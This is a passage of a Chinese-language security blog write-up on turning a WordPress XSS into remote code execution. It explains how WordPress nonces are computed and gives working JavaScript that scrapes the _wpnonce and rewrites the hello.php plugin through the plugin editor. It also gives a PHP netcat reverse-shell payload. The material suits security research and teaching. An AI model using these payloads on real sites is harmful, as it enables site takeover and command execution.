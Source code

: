 ```
	if ( hash_equals( $expected, $nonce ) ) {
		return 1;
	}

	// Nonce generated 12-24 hours ago
	$expected = substr( wp_hash( ( $i - 1 ) . '|' . $action . '|' . $uid . '|' . $token, 'nonce' ), -12, 10 );
	if ( hash_equals( $expected, $nonce ) ) {
		return 2;
	}
```

这其中i参数固定，action参数为不同操作的函数名，uid为当前用户的id，token为当前用户cookie中的第三部分。

也就是说，即便不方便读取，我们也可以使用直接计算的方式来获得wpnonce的值，完成攻击。

这里我们使用从页面中读取wpnonce的方式，nonce在页面中是这样的

```
<input type="hidden" id="_wpnonce" name="_wpnonce" value="00b19dcb1a" />
```

代码如下
```
url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/plugin-editor.php?';
q = 'file=hello.php';
s = '<?php phpinfo();?>';

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + /nonce" value="([^"]*?)"/.exec(a.responseText)[1] +
'&newcontent=' + s + '&action=update&file=hello.php';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);
```

通过这段js，我们可以向hello.php写入php code。
```
http://127.0.0.1/wordpress4.8/wp-content/plugins/hello.php
```
![image.png-17.5kB][5]

getshell，如果服务端权限没有做设置，我们可以直接system弹一个shell回来，导致严重的命令执行。

```
s = '<?=`nc localhost 5855 -e /bin/bash`;';
```

但正如XSS漏洞存在的意义，getshell或者rce本身都很难替代xss所能达到的效果，我们可以配合php的代码执行，来继续拓展xss的攻击面。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png
